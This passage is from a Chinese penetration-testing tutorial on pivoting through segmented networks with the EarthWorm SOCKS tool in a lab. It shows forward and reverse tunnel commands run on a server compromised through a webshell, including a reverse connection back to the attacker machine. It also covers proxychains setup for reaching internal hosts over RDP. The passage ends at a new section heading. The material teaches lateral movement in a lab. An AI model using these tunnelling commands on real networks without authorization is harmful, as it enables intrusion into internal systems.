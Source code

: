 



### 3.5.1 通过EW进行隧道穿透
在进行多层网段渗透时，我们经常会遇到各种代理隧道问题，仅靠使用端口转发无法完成，可以利用Socks协议建立隧道进行连接，Socks是代理服务可以说是lcx端口转发工具的升级版，有两种协议，分别是Socks 4和Socks 5。Socks 4只支持TCP，Socks 5支持TCP/UDP，核心功能是帮助他人通过socks访问网络。在主机上配置Socks协议代理服务，访问网站时Socks充当了中间人的角色，分别与双方（B/S）进行通信，然后将获得的结果通知对方，攻击者可以通过Socks客户端连接Socks服务，进而实现跳板攻击，EW工具使用具体参数如表3-13所示。<br />表3-13 EW参数介绍

| 参数 | 作用 |
| --- | --- |
| Ssocksd | 正向代理 |
| Rcsock | 反向代理客户端 |
| Rssocks | 反向代理服务端 |
| Lcx_slave | 一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机 |
| Lcx_tran | 通过监听本地端口接收代理请求，并转发给代理提供主机 |
| Lcx_listen | 通过监听本地端口接收数据，并将其转交给目标网络会连的代理提供主机 |

假设在内网渗透中发现主机，通过漏洞获取到管理权限，以Earthworm内网穿透工具为案例，通过socks协议演示连通内外网，本次实验环境如表3-14所示，实验拓扑如图3-134所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683832254-64d89a31-f314-42f3-a92a-be13e2b04d55.png#)<br />图3-134通过EW进行隧道穿透<br />表3-14 通过EW进行隧道穿透实验环境表

| 主机类型 | 服务类型 | IP地址 | 区域 |
| --- | --- | --- | --- |
| Kali 2022 | 攻击机 | 192.168.0.58 | 外网 |
| Windows server 2012 | Web服务器 | 192.168.0.25, 192.168.52.11 | DMZ区域 |
| windows server 2008 | FTP 服务器 | 192.168.52.12, 192.168.1.49 | DMZ区域 |
| windows 10 | PC主机 | 192.168.1.50, 192.168.2.2 | 办公区域 |
| Windows server 2012 | 核心服务器 | 192.168.2.3 | 核心区域 |

#### 1.一层正向连接
    1）假设拿到Web服务器的Webshell权限后，探测到无法访问外网，这时上传EW工具到Web服务器进行隧道穿透。使用EW工具的ssocksd参数做正向代理，设置Socks代理监听本地8888端口，执行命令ew_for_Win.exe -s ssocksd -l 8888，其中-s参数是指定选择参数，这里指定ssocksd做正向代理，-l参数是指定本地监听端口，如图3-135所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683832482-94005bd7-9d9a-4351-ae9d-f7689cc2c892.png#)<br />图3-135启动正向代理<br />   2）在攻击机中修改 proxychains4.conf配置文件，并在其底部添加一行socks5 192.168.0.25 8888参数来完成 proxychains代理配置，如图3-136所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683832715-d0beb931-fe22-4ad7-8517-5ab6fb4524f2.png#)<br />图3-136 修改proxychains配置文件<br />    3）当配置完 proxychains 代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接FTP服务器，如图3-137所示，通过所建立的socks协议隧道，我们可以直接远程连接到FTP服务器中。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683833080-1e0e91b7-d4ad-4918-9732-0c39b1befc34.png#)<br />图3-137连接成功
#### 2.一层反向代理
    1）假设当Web服务器它允许访问外部网络的情况下，可以利用EW工具以反向代理的方式进行socks隧道穿透，在Web服务器使用EW工具执行ew_for_Win.exe -s rssocks -d 192.168.0.58 -e 6666命令，连接攻击机服务端稍后监听的6666端口，-rssocks参数指连接反向代理服务端，-d参数指向攻击机的IP，-e参数指向攻击机开启监听的端口如图3-138所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683833543-2ad51800-3f8d-4fda-be67-facf67f8b731.png#)<br />图3-138跳板机执行命令<br />    2）在攻击机上使用EW工具开启服务端监听，执行./ew_for_linux64 -s rcsocks -e 6666 -d 8888命令，监听本地6666端口，同时6666端口流量映射到8888端口。其中-s参数指定使用rcsocks反向代理的方式，-e参数在这里是指攻击机服务端开启监听端口，-d参数是将要映射的端口，如图3-139所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683833781-9685d431-bd9e-4bfa-b41c-d81cca82e8eb.png#)<br />图3-139攻击机执行命令<br /> 3）在攻击机中修改 proxychains4.conf配置文件，并在其底部添加一行socks5 127.0.0.1 8888参数来完成proxychains代理配置，如图3-140所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683834015-31ff0caf-0b2b-43e2-aa7e-c5b45e978b06.png#)<br />图3-140修改proxychains配置文件<br />    4）当配置完proxychains代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接FTP服务器，如图3-141所示，通过所建立的socks协议隧道，我们可以直接远程连接到FTP服务器中。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683834303-56831c34-8953-43f6-aa1a-d995d3627c3e.png#)<br />图3-141一层反向连接成功
#### 3.二层正向代理